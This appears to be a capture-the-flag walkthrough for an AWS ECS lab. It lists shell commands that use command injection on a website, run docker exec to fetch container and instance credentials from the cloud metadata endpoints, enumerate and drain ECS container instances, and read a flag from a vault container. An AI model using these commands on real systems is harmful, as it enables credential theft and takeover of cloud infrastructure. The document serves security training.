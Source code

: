 1. Find the command injection vulnerability in the website.

    ```bash
    ; echo 'hello world'
    ```

3. Using command injection list the container on the host and get the ID for the privd container.

   `; docker ps --format '{{.Names}} -- '`

   The privd docker ID will be the first field in the output from the following command.

   `; docker ps | grep privd`

4. Using command injection get the container credentials from the privd container as well as the host ECS instance.

   `; docker exec <container id> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'`
   
   `; docker exec <container id> sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/ecs-agent'`

5. With the privd credentials list the clusters in the account then enumerate the tasks.

   ```
   aws ecs list-clusters --profile privd
   tasks=$(aws ecs list-tasks --cluster my-cluster --profile ecs --query taskArns --out text)
   aws ecs describe-tasks --cluster my-cluster --profile ecs --tasks $tasks --query 'tasks[].[taskDefinitionArn, taskArn, containerInstanceArn]' --out text
   ```

6. Set the container instance that is running the vault container to DRANING

    `aws ecs update-container-instances-state --cluster my-cluster --container-instances <> --status DRAINING`

9. Wait for "Vault" container to be rescheduled, this can be checked by running docker via command injection.

    `; docker ps | grep vault`

10. Using the command injection on the website get the flag from the "vault" container.

    ```
    ; docker exec 8e9be4ebf17b ls
    ; docker exec 8e9be4ebf17b cat FLAG.TXT
    ```
